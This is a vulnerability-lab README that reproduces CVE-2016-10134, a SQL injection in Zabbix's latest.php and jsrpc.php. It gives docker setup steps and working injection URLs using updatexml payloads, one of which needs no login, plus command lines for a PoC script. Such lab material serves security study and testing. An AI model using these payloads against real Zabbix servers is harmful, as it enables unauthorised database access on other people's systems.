 # Zabbix latest.php SQL Injection (CVE-2016-10134)

[中文版本(Chinese version)](README.zh-cn.md)

Zabbix is a server monitoring software that consists of server, agent, and web modules. The web module is written in PHP and is used to display results from the database.

In the Zabbix version before 2.2.14 and 3.0 before 3.0.4, there is a SQL injection vulnerability in the `latest.php` file. This vulnerability allows remote attackers to execute arbitrary SQL commands via the `toggle_ids` array parameter. This vulnerability can also be triggered through jsrpc.php without authentication.

References:

- https://support.zabbix.com/browse/ZBX-11023
- https://www.exploit-db.com/exploits/40237
- https://www.exploit-db.com/exploits/40353

## Environment Setup

Execute the following command to start Zabbix 3.0.3:

```
docker compose up -d
```

After executing the command, it will start the database (MySQL), Zabbix server, Zabbix agent, and Zabbix web interface. If your system has limited memory, some containers might fail to start. You can check container status using `docker compose ps` and restart containers using `docker compose start`.

## Vulnerability Reproduction

Visit `http://your-ip:8080` and log in with the guest account (username: `guest`, password: empty).

After logging in, check the `zbx_sessionid` in your cookies and copy the last 16 characters:

![](1.png)

Use these 16 characters as the sid value and visit `http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`. You can see the successful SQL injection:

![](2.png)

This vulnerability can also be triggered through jsrpc.php without requiring login: `http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`:

![](3.png)

During debugging, I discovered that the `latest.php` SQL injection is possible without requiring a username and password. For implementation details, see the POC.

```shell
python3 CVE-2016-10134.py -t 127.0.0.1:8080

python3 CVE-2016-10134.py --target 127.0.0.1:8080
```
